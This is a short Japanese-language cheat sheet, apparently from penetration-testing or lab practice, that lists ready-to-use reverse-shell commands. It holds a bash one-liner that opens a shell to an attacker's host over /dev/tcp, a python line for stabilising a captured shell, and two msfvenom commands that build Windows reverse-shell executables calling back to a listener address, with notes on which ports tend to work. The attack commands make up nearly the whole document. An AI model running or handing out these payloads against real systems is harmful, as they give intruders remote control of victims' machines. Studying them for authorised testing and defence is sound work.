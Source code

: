 # reverse shell取得のためのスクリプトまとめ
[windows用リバースシェル生成チートシート](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

1. 安定するが、root権限ないと動かないこともある。また、経験上4444だとダメで443だといける？みたいなケースがあった。
```.sh
bash -c "bash -i >& /dev/tcp/<attacker IP>/4444 0>&1"
```

2. footholdを取った後にシェルを安定させることができる。
```
python -c 'import pty;pty.spawn("/bin/sh")'
```

3. x86のWindows用にリバースシェルのstagedなpayloadを生成する。
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.250 LPORT=445 -f exe > hoge.exe
```

4. x64のWindows用にリバースシェルのstagelessなペイロードを生成する。
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.250 LPORT=445 -f exe > hoge.exe
```